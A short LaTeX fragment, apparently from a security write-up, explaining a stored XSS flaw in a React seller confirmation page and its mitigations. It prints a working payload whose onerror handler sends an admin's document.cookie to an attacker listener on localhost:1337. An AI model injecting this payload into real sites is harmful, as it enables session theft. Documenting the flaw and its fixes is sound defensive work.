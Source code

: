 \documentclass[]{article}
\begin{document}
\begin{lstlisting}
<audio src="" onerror="fetch('http://localhost:1337', {method:'POST', body:document.cookie})">
\end{lstlisting}
The React component will render this HTML, and the malicious script will execute whenever an admin views the seller confirmation page. This script sends the admin's cookies to the attacker's server running on \texttt{localhost:1337}. If the attacker has a netcat listener on port \texttt{1337}, they can capture the cookies:
\begin{figure}[h]
\includegraphics[width=8cm]{images/stored_xss.eps}
\centering
\end{figure} \\ 
\textbf{Mitigation:}
To prevent Stored XSS vulnerabilities, it is essential to set cookies with the \texttt{HttpOnly: true} flag to prevent access to \texttt{document.cookie}, sanitize user input, and avoid using \texttt{dangerouslySetInnerHTML} or any other methods that directly inject user-supplied HTML into the DOM.
\end{document}
